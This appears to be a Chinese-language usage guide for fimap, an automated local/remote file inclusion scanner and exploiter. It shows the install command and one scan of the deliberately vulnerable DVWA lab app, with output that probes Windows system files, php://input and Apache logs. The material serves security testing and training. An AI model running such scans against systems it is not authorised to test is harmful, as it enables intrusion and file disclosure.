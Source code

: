 # fimap

## 安装

```
git clone https://github.com/kurobeats/fimap.git
```


## 使用
### 最佳实践
```
cd fimap/src
```

### 参数说明

`-u`：指定url  
`--cookie`：设置cookie信息

```sh
➜  ~ fimap -u "http://192.168.56.101/DVWA/vulnerabilities/fi/?page=file3.php" --cookie="security=medium; PHPSESSID=b2i1bqt4mvna2faanq5jq5rm62" 
fimap v.1.00_svn (My life for Aiur)
:: Automatic LFI/RFI scanner and exploiter
:: by Iman Karim (fimap.dev@gmail.com)

SingleScan is testing URL: 'http://192.168.56.101/DVWA/vulnerabilities/fi/?page=file3.php'
[02:11:10] [OUT] Inspecting URL 'http://192.168.56.101/DVWA/vulnerabilities/fi/?page=file3.php'...
[02:11:10] [INFO] Fiddling around with URL...
[02:11:10] [OUT] [PHP] Possible file inclusion found! -> 'http://192.168.56.101/DVWA/vulnerabilities/fi/?page=rySlWVBw' with Parameter 'page'.
[02:11:10] [OUT] [PHP] Identifying Vulnerability 'http://192.168.56.101/DVWA/vulnerabilities/fi/?page=file3.php' with Parameter 'page'...
[02:11:10] [INFO] Scriptpath received: 'D:\xampp\htdocs\DVWA\vulnerabilities\fi'
[02:11:10] [INFO] Operating System is 'Windows'.
[02:11:10] [INFO] Testing file 'c:\boot.ini'...
[02:11:10] [INFO] Testing file 'c:\windows\win.ini'...
[02:11:10] [INFO] Testing file 'php://input'...
[02:11:10] [INFO] Testing file 'C:\Program Files\Apache Group\Apache\logs\access.log'...
[02:11:10] [WARN] HTTP Error 400: Bad Request
[02:11:10] [INFO] Testing file 'C:\Program Files\Apache Group\Apache\logs\access_log'...
[02:11:10] [WARN] HTTP Error 400: Bad Request
[02:11:10] [INFO] Testing file 'http://www.tha-imax.de/fimap_testfiles/test'...
##################################################################################
#[1] Possible PHP-File Inclusion                                                 #
##################################################################################
#::REQUEST                                                                       #
#  [URL]        http://192.168.56.101/DVWA/vulnerabilities/fi/?page=file3.php    #
#  [HEAD SENT]  Cookie                                                           #
#::VULN INFO                                                                     #
#  [GET PARAM]  page                                                             #
#  [PATH]       D:\xampp\htdocs\DVWA\vulnerabilities\fi                          #
#  [OS]         Windows                                                          #
#  [TYPE]       Absolute Clean                                                   #
#  [TRUNCATION] No Need. It's clean.                                             #
#  [READABLE FILES]                                                              #
#                   [0] c:\windows\win.ini                                       #
#                   [1] php://input                                              #
##################################################################################
```
